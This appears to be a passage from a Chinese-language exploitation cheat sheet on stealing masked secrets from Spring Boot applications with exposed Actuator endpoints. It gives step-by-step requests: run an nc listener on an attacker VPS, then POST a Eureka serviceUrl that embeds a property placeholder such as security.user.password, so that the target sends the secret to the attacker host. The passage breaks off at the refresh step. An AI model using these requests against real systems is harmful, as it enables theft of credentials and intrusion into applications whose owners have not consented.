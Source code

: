 - 可以 GET 请求目标网站的 `/env` 
- 可以 POST 请求目标网站的 `/env` 
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）



#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。



##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```bash
nc -lvk 80
```



##### 步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性

将下面 `http://value:${security.user.password}@your-vps-ip`  中的  `security.user.password` 换成自己想要获取的对应的星号 * 遮掩的属性名；

`your-vps-ip` 换成自己外网服务器的真实 ip 地址。



spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}
```



##### 步骤四： 刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```
